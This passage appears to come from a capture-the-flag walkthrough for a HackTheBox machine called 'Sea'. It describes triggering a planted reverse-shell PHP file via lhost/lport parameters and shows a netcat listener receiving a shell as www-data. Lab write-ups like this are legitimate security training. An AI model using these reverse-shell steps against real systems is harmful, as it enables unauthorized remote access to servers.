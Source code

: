 ### Step 5

Navigate to http://sea.htb/themes/raccoon/rev.php?lport=7777&lhost=10.10.14.10 (obviously changing your port and IP) and get an _easy_ shell.

```bash
nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.129.6.216 52832
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 05:54:08 up  2:58,  0 users,  load average: 1.21, 1.18, 1.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


